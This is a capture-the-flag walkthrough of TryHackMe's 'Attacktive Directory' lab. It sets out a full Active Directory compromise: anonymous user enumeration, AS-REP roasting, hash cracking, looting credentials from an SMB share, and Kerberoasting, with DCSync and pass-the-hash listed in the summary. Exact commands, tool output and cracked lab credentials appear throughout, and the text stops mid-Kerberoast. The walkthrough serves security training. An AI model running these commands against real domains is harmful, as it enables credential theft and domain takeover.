

<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `spookysec.local`, `THM-AD`), **Difficulty:** Medium

</div>

<div class="callout callout-abstract">

**Attack Path**

1. `enum4linux` + `crackmapexec --rid-brute` (anonymous) → user list.
2. **AS-REP roast** (`GetNPUsers.py`) → `svc-admin` hash → crack → **`svc-admin : management2005`**.
3. SMB as `svc-admin` → `backup` share → `backup_credentials.txt` (base64) → **`backup : backup2517860`**.
4. The `backup` account has **"Replicating Directory Changes"** → `secretsdump.py -just-dc` (**DCSync**) → all NTLM hashes incl. Administrator.
5. **Pass-the-hash** with `evil-winrm` / `psexec` as Administrator → both flags.

</div>

<div class="callout callout-key">

**Credentials**

- `svc-admin` : `management2005`
- `backup` : `backup2517860`
- `Administrator` NT hash: `0e0363213e37b94221497260b0bcb4fc`

</div>

---

## Full Walkthrough

### Nmap scan

Every Active Directory box starts the same way for me: a full port scan to see what services are actually exposed before I decide where to spend my time. The results here read like a textbook domain controller, which immediately told me this engagement was going to be about AD enumeration and credential abuse rather than a web application exploit.

```bash
Host is up, received user-set (0.089s latency).
Scanned at 2024-05-06 20:59:06 EDT for 285s
Not shown: 987 closed ports
Reason: 987 conn-refused
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-05-07 00:59:17Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-05-07T01:01:35+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-06T00:57:30
| Not valid after:  2024-11-05T00:57:30
| MD5:   208c c8f7 b322 4e70 aa92 841f a886 12e9
| SHA-1: 6947 c30b 55b6 8a80 b29c bf12 7274 260b 81ab 62c4
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQe/+EfZrOF6hFekzkl4+xvDANBgkqhkiG9w0BAQsFADAu
| MSwwKgYDVQQDEyNBdHRhY2t0aXZlRGlyZWN0b3J5LnNwb29reXNlYy5sb2NhbDAe
| Fw0yNDA1MDYwMDU3MzBaFw0yNDExMDUwMDU3MzBaMC4xLDAqBgNVBAMTI0F0dGFj
| a3RpdmVEaXJlY3Rvcnkuc3Bvb2t5c2VjLmxvY2FsMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEAu0zA4ICLu/0QbVEEPJQqSN2TY0SRKHa5YRFLg7aRmR/E
| HQiLV4kV9nuCI8Bcnuifqb7sXHj2Wu2gjUUeLoJh1mbyXK7J75+gnVWzFq9lLgqI
| 6BpzfLq3KDjJrpSiJ9hf32PJW5FVuI31zdwYnENKwxQ0leL7RaUcMBJw8Nqbf68R
| jfTknhA8KoofuP9V9I1QE1qKEX7hMnXcot8+HpcW++QtfjXUtg8wQu98pgci4vao
| CuVegSPr8UVz7/CW0iuwkM6QJV9F8wF+M0jusqHikhStC9I0meujU4UqP27nzoQ4
| tHDGRPsfN466NdLX092cXhF3TxUFvNXtASt3JvmRdQIDAQABoyQwIjATBgNVHSUE
| DDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAHtO
| s6EbAwIKijjf/jBH1eNpAd7AU0jcRD7lKrGNPYCH98ksnFYRqLCG5KlvyJGb/S50
| L0Bm34wyV4tLX9XGTyDbMor4TZ/u7IO0pdWOXvHQqE3V2jlj2kdlv4kmZGYVEKMT
| kzeHBZEyUomnANndvJlY7xljAzMUvk77mv81GyZT/9R8jj0jEN8037RHqxLfs83w
| 9WMTXfi1KHpYMorDD07Ybv9Qgp4cX7xHTHaNqs/tXzfZfYW9HoBytXv7Iq23RT3I
| vjq14Va1bF778zo6px+j8FaDM5p2nj46o+EJC0WwPLuZb29DeLWrW7nOPltTO/5R
| nmpYzWsnC1NgZ+T1T7U=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-05-07T01:01:50+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/6%Time=66397CEA%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 23008/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22063/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 9494/udp): CLEAN (Timeout)
|   Check 4 (port 39356/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-05-07T01:01:37
|_  start_date: N/A
```


With ports 88, 389, and 445 all confirming a domain controller, my first move was unauthenticated enumeration against SMB and RPC, since AD environments frequently allow null sessions or anonymous binds that leak far more than administrators expect. `enum4linux` bundles a lot of that enumeration into one pass, so I started there.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 20:56]
└─[$]> enum4linux -a 10.10.80.158           
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon May  6 21:00:04 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.80.158
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 10.10.80.158 )============================

tls.c:88:tls_initialize(): fatal error: RUNTIME_CHECK(OPENSSL_init_ssl(OPENSSL_INIT_ENGINE_ALL_BUILTIN | OPENSSL_INIT_LOAD_CONFIG, NULL) == 1) failed

[E] Can't find workgroup/domain


 ================================( Nbtstat Information for 10.10.80.158 )================================

Looking up status of 10.10.80.158
No reply from 10.10.80.158

 ===================================( Session Check on 10.10.80.158 )===================================


[+] Server 10.10.80.158 allows sessions using username '', password ''


 ================================( Getting domain SID for 10.10.80.158 )================================

Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963

[+] Host is part of a domain (not a workgroup)


 ===================================( OS information on 10.10.80.158 )===================================


[E] Can't get OS info with smbclient


[+] Got OS info for 10.10.80.158 from srvinfo: 
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED


 =======================================( Users on 10.10.80.158 )=======================================


[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED


[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED


 =================================( Share Enumeration on 10.10.80.158 )=================================

do_connect: Connection to 10.10.80.158 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 10.10.80.158


 ============================( Password Policy Information for 10.10.80.158 )============================


[E] Unexpected error from polenum:


[+] Attaching to 10.10.80.158 using a NULL share

[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:10.10.80.158)

[+] Trying protocol 445/SMB...

	[!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.


[E] Failed to get password policy with rpcclient


 =======================================( Groups on 10.10.80.158 )=======================================


[+] Getting builtin groups:


[+]  Getting builtin group memberships:


[+]  Getting local groups:


[+]  Getting local group memberships:


[+]  Getting domain groups:


[+]  Getting domain group memberships:


 ==================( Users on 10.10.80.158 via RID cycling (RIDS: 500-550,1000-1050) )==================


[I] Found new SID: 
S-1-5-21-3591857110-2884097990-301047963

[I] Found new SID: 
S-1-5-21-3591857110-2884097990-301047963

[+] Enumerating users using SID S-1-5-21-3591857110-2884097990-301047963 and logon username '', password ''

S-1-5-21-3591857110-2884097990-301047963-500 THM-AD\Administrator (Local User)
S-1-5-21-3591857110-2884097990-301047963-501 THM-AD\Guest (Local User)
S-1-5-21-3591857110-2884097990-301047963-502 THM-AD\krbtgt (Local User)
S-1-5-21-3591857110-2884097990-301047963-512 THM-AD\Domain Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-513 THM-AD\Domain Users (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-514 THM-AD\Domain Guests (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-515 THM-AD\Domain Computers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-516 THM-AD\Domain Controllers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-517 THM-AD\Cert Publishers (Local Group)
S-1-5-21-3591857110-2884097990-301047963-518 THM-AD\Schema Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-519 THM-AD\Enterprise Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-520 THM-AD\Group Policy Creator Owners (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-521 THM-AD\Read-only Domain Controllers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-522 THM-AD\Cloneable Domain Controllers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-525 THM-AD\Protected Users (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-526 THM-AD\Key Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-527 THM-AD\Enterprise Key Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-1000 THM-AD\ATTACKTIVEDIREC$ (Local User)

[+] Enumerating users using SID S-1-5-21-3532885019-1334016158-1514108833 and logon username '', password ''

S-1-5-21-3532885019-1334016158-1514108833-500 ATTACKTIVEDIREC\Administrator (Local User)
S-1-5-21-3532885019-1334016158-1514108833-501 ATTACKTIVEDIREC\Guest (Local User)
S-1-5-21-3532885019-1334016158-1514108833-503 ATTACKTIVEDIREC\DefaultAccount (Local User)
S-1-5-21-3532885019-1334016158-1514108833-504 ATTACKTIVEDIREC\WDAGUtilityAccount (Local User)
S-1-5-21-3532885019-1334016158-1514108833-513 ATTACKTIVEDIREC\None (Domain Group)

 ===============================( Getting printer info for 10.10.80.158 )===============================

do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Mon May  6 21:05:50 2024
```

Even without valid credentials, `enum4linux`'s RID cycling walked the domain SID and handed back a long list of account names, which on its own is already a meaningful information disclosure: an anonymous connection should never be able to enumerate the entire user base of a domain. To build on that and make sure I had not missed anything, I ran `crackmapexec` with `--rid-brute` as a second, independent pass over the same technique.

```bash
crackmapexec smb 10.10.80.158 -u '' -p '' --rid-brute > u.txt
```

That raw output is not directly usable as a wordlist, though, it is full of formatting noise and the domain SID prefix, so I parsed `u.txt` down with a chain of `grep`, `rev`, and `cut` to isolate just the bare usernames I would need for the next stage.

```bash
cat u.txt |grep -i user |rev |cut -f2 -d ' ' |rev |grep THM-AD |cut -f2 -d '\' |grep -Ev (DC|SVC) |tail -n +4 > users.txt
```

That gave me a clean list of usernames to work from. I also ran `kerbrute` against the same target independently, since it validates usernames through the Kerberos pre-authentication response rather than SMB RID enumeration, and cross-checking two different techniques is a cheap way to catch anything one method alone might have missed.

```bash
ATTACKTIVEDIREC$
skidy
breakerofthings
james
optional
sherlocksec
darkstar
Ori
robin
paradox
Muirland
horshark
svc-admin
backup
a-spooks
```

### Kerbrute

```bash

```

`kerbrute` did not surface anything the RID cycling had not already found, which was reassuring rather than wasted effort, it meant I could trust the user list I already had going forward. With a confirmed set of valid domain accounts in hand, the next logical check was whether any of them had blank or misconfigured passwords, so I went back to `crackmapexec` to spray each username against SMB with an empty password.

### Going back with crackmapexec

Here is what that empty-password spray against the full user list turned up.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 21:13]
└─[$]> crackmapexec smb 10.10.80.158 -u users.txt -p '' --shares
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\ATTACKTIVEDIREC$: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\skidy: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\breakerofthings: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\james: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\optional: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\sherlocksec: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\darkstar: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\Ori: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\robin: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\paradox: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\Muirland: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\horshark: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\svc-admin: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\backup: STATUS_LOGON_FAILURE 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [-] spookysec.local\a-spooks: STATUS_LOGON_FAILURE
```

Every single account failed that empty-password spray, which ruled out that avenue entirely, but the output was still useful: it confirmed the domain name as `spookysec.local`, which I would need for every subsequent Kerberos-aware tool. With that confirmed and no blank passwords to exploit, I moved to a technique that does not need a password guess at all: AS-REP roasting targets any account with Kerberos pre-authentication disabled, requesting a ticket for it and getting back a piece of material that can be cracked offline rather than bruteforced live against the DC.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 21:30]
└─[$]> python3 ~/ADTools/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile users.txt 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User ATTACKTIVEDIREC$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User skidy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User breakerofthings doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User optional doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sherlocksec doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ori doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Muirland doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User horshark doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:75f9751124e0cf7f338fa5cd7fb100da$850ec168f9210535535a04d9a6d944341fd03f481f0d787b27fff1b070b5a39df0683a832539c35f9f13c1c13da8d70ae7f4cb59889a704ef02864be93370406c1f888b5dea06b3f526617ea369f2428ec460c45707be408d03ced9bfd70486d83b3feeb7e90b5f66706aba63b8f5ecadad1191a00032c6740d54fde7c4dc3823bda1dadc4b84ff0c52b331ec4e98162de708e7abbabcb1f3a3a54c129c5dd4633a01b8f18ffd3953c6609039e6294126d565ded22fc00645ffa658456ea3a8dc2282308b94a3bb35a418b1812a23afbceae7cbde3b8cee37ef1d5b70d48a27fc9f5e3407f40ee6fa634d0a1b41c6357a24f
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-spooks doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Running `GetNPUsers.py` against the full user list flagged exactly one account, `svc-admin`, as not requiring pre-authentication, and handed back its AS-REP hash. Service accounts are disproportionately likely to have this misconfiguration since they are often set up once and forgotten, and that pattern held true here. With the hash in hand, offline cracking was the obvious next step, so I handed it to `hashcat` against `rockyou.txt`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 21:32]
└─[$]> hashcat -m 18200 -a 0 hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force --potfile-disable
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:75f9751124e0cf7f338fa5cd7fb100da$850ec168f9210535535a04d9a6d944341fd03f481f0d787b27fff1b070b5a39df0683a832539c35f9f13c1c13da8d70ae7f4cb59889a704ef02864be93370406c1f888b5dea06b3f526617ea369f2428ec460c45707be408d03ced9bfd70486d83b3feeb7e90b5f66706aba63b8f5ecadad1191a00032c6740d54fde7c4dc3823bda1dadc4b84ff0c52b331ec4e98162de708e7abbabcb1f3a3a54c129c5dd4633a01b8f18ffd3953c6609039e6294126d565ded22fc00645ffa658456ea3a8dc2282308b94a3bb35a418b1812a23afbceae7cbde3b8cee37ef1d5b70d48a27fc9f5e3407f40ee6fa634d0a1b41c6357a24f:management2005
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:75f9751124e...57a24f
Time.Started.....: Mon May  6 21:33:09 2024, (6 secs)
Time.Estimated...: Mon May  6 21:33:15 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1027.7 kH/s (2.90ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 5837979/14344384 (40.70%)
Rejected.........: 1179/5837979 (0.02%)
Restore.Point....: 5833883/14344384 (40.67%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: mandaqu -> man211185
Hardware.Mon.#1..: Temp: 58c Util: 89%

Started: Mon May  6 21:33:07 2024
Stopped: Mon May  6 21:33:17 2024
```

Hashcat made short work of the AS-REP hash and recovered `svc-admin`'s cleartext password, `management2005`, giving me my first real foothold identity in the domain. With actual credentials to authenticate with, my priority shifted to understanding this account's position in the wider AD environment, specifically what group memberships and permissions it carried that might not be obvious from a plain `whoami`. `bloodhound-python` collects exactly that kind of relationship data over LDAP and SMB, so I pointed it at the domain using the new credentials.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory/bloodhound-recon1] - [Mon May 06, 21:38]
└─[$]> bloodhound-python -d 'spookysec.local' -u 'svc-admin' -p 'management2005' -ns 10.10.80.158 -c all 
INFO: Found AD domain: spookysec.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: attacktivedirectory.spookysec.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: attacktivedirectory.spookysec.local
INFO: Found 18 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: AttacktiveDirectory.spookysec.local
INFO: Done in 00M 21S
```



Loading the collected data into the BloodHound GUI and graphing `svc-admin`'s reachable rights showed it had RDP access to the domain controller, an easy way to get eyes-on access without needing anything more sophisticated, so I connected over RDP and confirmed it logged in cleanly. In parallel, I also wanted to see what these credentials could reach over SMB specifically, so I went back to `crackmapexec` to enumerate shares.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 22:08]
└─[$]> crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005' --shares
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  [*] Enumerated shares
SMB         10.10.80.158    445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.80.158    445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.80.158    445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.80.158    445    ATTACKTIVEDIREC  backup          READ            
SMB         10.10.80.158    445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.80.158    445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.80.158    445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share 
SMB         10.10.80.158    445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share 
```

A `backup` share with `READ` access stood out immediately, since a share by that name is almost always worth checking for leftover credentials or configuration data. I cross-checked the same access with `smbmap` as well, partly out of habit and partly because different tools occasionally surface access that one alone misses.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 22:11]
└─[$]> smbmap  -u 'svc-admin' -p 'management2005' -d spookysec.local -H 10.10.80.158

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
 SMBMap - Samba Share Enumerator v1.10.2 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authentidated session(s)                                                      
                                                                                                                                            
[+] IP: 10.10.80.158:445	Name: spookysec.local     	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	backup                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
```


Both tools agreed on the `backup` share being readable, so I connected to it directly with `smbclient` to see what was actually sitting inside.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 22:16]
└─[$]> smbclient //spookysec.local/backup -U 'svc-admin%management2005' 
Try "help" to get a list of possible commands.
smb: \> 
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 22:18]
└─[$]> echo -n "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d                                                  
backup@spookysec.local:backup2517860   
```

Inside the share sat a file named `backup_credentials.txt`, and rather than plaintext, its content turned out to be a base64 string, which decoded cleanly into a second set of domain credentials for a `backup` account.

With a second identity in hand, I wanted to check whether Kerberoasting would open up anything further. Since I did not yet know which accounts, if any, actually had SPNs registered, I used `targetedKerberoast`, which can add a temporary SPN to accounts it has write access to before requesting and printing the ticket, rather than relying only on accounts that already happen to be service accounts.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Mon May 06, 22:24]
└─[$]> python3 ~/ADTools/targetedKerberoast/targetedKerberoast.py -v -d "spookysec.local" -u "backup" -p 'backup2517860'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (skidy)
[+] Printing hash for (skidy)
